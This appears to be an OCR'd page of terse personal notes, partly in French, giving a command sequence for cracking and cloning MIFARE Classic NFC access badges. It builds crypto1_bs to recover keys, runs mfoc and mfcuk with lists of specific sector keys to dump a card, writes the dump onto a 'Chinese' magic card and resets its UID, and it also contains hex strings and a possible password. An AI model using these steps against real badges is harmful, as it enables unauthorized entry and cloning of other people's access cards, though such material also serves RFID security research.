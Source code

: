 setxkbmap fr

2AE62C4A57F8CF8223F2FE1519

57699A6CCED5642CFCED96D193

jelled7397

git clone https://github.com/aczid/crypto1_bs.git

cd crypto1_bs 

make get_craptev1

make get_crapto1

apt-get update

apt-get install libusb-dev

apt-get install libnfc-bin libnfc-dev libnfc5

make # make install

./libnfc_crypto1_crack 484558414354 0 A 16 B

mfoc -P 500 -k 484558414354 -k 66d2b7dc39ef -k 6bc1e1ae547d -k 22729a9bd40f -k a22ae129c013 -k 49fae4e3849f -k 38fcf33072e0 -k 8ad5517b4b18 -k 509359f131b1 -k 6c78928e1317 -k aa0720018738 -k a6cac2886412 -k 62d0c424ed8e -k e64a986a5d94 -k 8fa1d601d0a2 -k 89347350bd36 -O carte-originale.dmp


mfoc -P 500 -k 484558414354 -k 021209197591 -k 8829da9daf76 -k 414C41524F4E -k D3F7D3F7D3F7 -k 4A6352684677 -O carte-originale.dmp

mfoc -P 500 -k a0a1a2a3a4a5 -k ef61a3d48e2a -k 314b49474956 -O carte.dmp


mfoc -P 500 -k 484558414354 -k 66d2b7dc39ef -k 6bc1e1ae547d -k 22729a9bd40f -k a22ae129c013 -k 49fae4e3849f -k 38fcf33072e0 -k 8ad5517b4b18 -k 509359f131b1 -k 6c78928e1317 -k aa0720018738 -k a6cac2886412 -k 62d0c424ed8e -k e64a986a5d94 -k 8fa1d601d0a2 -O carte-originale.dmp

mfoc -P 500 -k 89347350bd36 -k 021209197591 -k 8829da9daf76 -k 414C41524F4E -k D3F7D3F7D3F7 -k 4A6352684677 -P 500 -k a0a1a2a3a4a5 -k ef61a3d48e2a -k 314b49474956 -k 424C41524F4E -O carte-originale.dmp

apt-get install libnfc-examples         NE PAS OUBLIER A TELECHARCHER POUR MODIFIER UID

nfc-mfclassic W a carte-a-copier.dmp carte-chinoise.dmp

nfc-mfsetuid 00000000

nfc-mfsetuid -f

mfcuk -C -R 0:A -s 250 -S 250 -v3 badge.dmp

modprobe -r pn533_usb

modprobe -r pn533

milazycracker

https://github.com/iAmNotSuperman/miLazyCracker/
